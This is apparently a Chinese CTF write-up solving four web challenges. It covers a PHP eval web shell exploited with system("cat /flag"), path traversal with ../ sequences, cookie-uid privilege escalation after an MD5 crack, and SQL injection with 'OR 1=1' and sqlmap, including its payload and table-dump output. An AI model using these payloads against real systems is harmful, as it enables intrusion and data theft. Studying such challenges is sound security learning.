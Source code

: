 # 跑马场

```php
<?php 

// 真正的强者，敢于把自己的马送给别人
highlight_file(__FILE__);

@eval($_REQUEST['dc64c146a42ea65baf7b5a7d64a50972']);
```

## 代码分析

#### 1. `highlight_file(__FILE__);`

- **作用**：将当前 PHP 文件（即包含此代码的文件）的源代码以 HTML 高亮形式显示给用户。

#### 2. `@eval($_REQUEST['dc64c146a42ea65baf7b5a7d64a50972']);`

- **关键点拆解**：
  - `@`：PHP 的**错误抑制符**，用于隐藏代码执行过程中的错误信息。这会让调试变得困难，但也增加了漏洞利用的隐蔽性。
  - `eval()`：PHP 的内置函数，用于**执行任意 PHP 代码**（字符串形式）。例如：`eval('echo "Hello";');` 会直接输出 `Hello`。
  - `$_REQUEST`：PHP 的**超全局变量**，同时接收来自 GET、POST 或 COOKIE 的参数。
  - `dc64c146a42ea65baf7b5a7d64a50972`：参数名，可能是随机生成或经过哈希处理的，用于混淆，但本质上就是一个普通的参数名（如`?param=value`中的`param`）。

## 漏洞利用

​	`eval(phpcode)`通过eval()函数我们可以向其中注入执行任意php代码。通过分析上面的eval函数中传入了一个超全局变量，param名称为`dc64c146a42ea65baf7b5a7d64a50972`，我们可以构造`https://hostname.com/?dc64c146a42ea65baf7b5a7d64a50972=system("cat /flag")`来执行ls命令并看到输出结果

## 补充

### PHP 超级全局变量

​	PHP中预定义了几个超级全局变量（superglobals） ，这意味着它们在一个脚本的全部作用域中都可用。 你不需要特别说明，就可以在函数及类中使用。

PHP 超级全局变量列表:

- $GLOBALS
- $_SERVER
- $_REQUEST
- $_POST
- $_GET
- $_FILES
- $_ENV
- $_COOKIE
- $_SESSION

# 音乐会

```html
<img src="/get_resource.php?path=static/img/1.jpg">
```

## 代码分析

​	在这到题目中我们可以看见在页面HTML中，通过`get_resource.php`获取到了图片内容并显示到前端中，其中传入的参数为`path`，其值为相对路径。

## 漏洞利用

​	我们可以通过访问`https://hostname.com/get_resource.php?path=flagpath`来获取到flag内容

## 补充

​	我们很难通过相对路径来确定绝对路径，所以我们通过添加../../../../../../../，一直返回到根目录，来获取flag路径。

# Unboxing

![image-20250708163116174](.\assets\image-20250708163116174.png)

​	访问地址我们看到了如下页面，结合题目描述中申先生的账号 ID 是 6，密码的 md5 是 6d8fc80ae8d10ce7d179d9bef28df666，我们就可以获得一个登录账号密码。

​	本题目中的密码通过了md5加密，我们可以通过[md5在线解密破解,md5解密加密](https://www.cmd5.com/default.aspx)这个网站，进行解密，解密结果为kaihe。

![image-20250708163540224](.\assets\image-20250708163540224.png)

​	通过分析发现，在cookie中有一个uid值为6，怀疑该网站存在平级跨权访问漏洞，修改cookie的值为1，显示结果如下。

![image-20250708163721656](.\assets\image-20250708163721656.png)

​	依次访问我们就可以拿到flag。

​	开盒喵

# 图书馆

![image-20250708164521012](.\assets\image-20250708164521012.png)

​	本题目中直接把账号密码传入了sql语句，因此这里有了sql注入点，我们可以构造`admin' OR '1'='1`，这样sql语句就成了`SELECT * FROM users WHERE username = '`admin' OR '1'='1' AND password = ''，条件恒为1，这样就可以登录进入系统里。

​	进入系统之后就可以查看图书，其中访问图书的时候地址为`[图书馆系统 - 图书详情](http://hostname.com/book?id=1`，怀疑id传入的点有sql注入，于是添加'截断字符串，访问地址`http://hostname.com/book?id=1'`，页面输出`查询失败，请重试: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1")`，确认为sql注入点，开始注入工作。

​	之后我们使用注入工具sqlmap进行注入（当然我们也同样可以使用sqlmap来检测注入点）。

​	这里我们通过使用sql注入进入了系统，为了储存我们的登陆状态，我们有自己的cookie，在使用sqlmap时候我们可以使用如下语法`sqlmap -u "https://hostname.com/book?id=1" --cookie="COOKIE"`来检测注入点，输出如下：

```shell
[17:02:50] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5375=5375 AND 'cHSM'='cHSM

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x7162716b71,(SELECT (ELT(9581=9581,1))),0x7171717a71),9581) AND 'XkAv'='XkAv

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4447 FROM (SELECT(SLEEP(5)))OBYc) AND 'mKpu'='mKpu

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7162716b71,0x57785a53554b6a6651566b6155764a544858417671657750414e7054504450776c7a766c4c4c5461,0x7171717a71),NULL,NULL,NULL-- -
---
```

​	发现注入点之后，我们就可以进行利用，我们使用语句`sqlmap -u "https://hostname.com/book?id=1" --cookie="COOKIE" --dbs`查看数据库中的所有库。

```shell
[17:11:51] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] library
[*] mysql
[*] performance_schema
[*] sys
```

​	获取到数据库之后我们就可以使用`-D`指定数据库，使用`--tables`查看数据库中的表。

```shell
[17:13:34] [INFO] fetching tables for database: 'library'
Database: library
[3 tables]
+-------+
| books |
| flag  |
| users |
+-------+
```

​	我们看到了其中有flag表，我们就可以使用`-T`参数指定表，使用`--dump`获取表中的数据。

## 补充

​	详细使用方法可以查看[SQLmap使用教程图文教程（非常详细）从零基础入门到精通，看完这一篇就够了。-CSDN博客](https://blog.csdn.net/dzqxwzoe/article/details/132683722)，感觉写的不错。
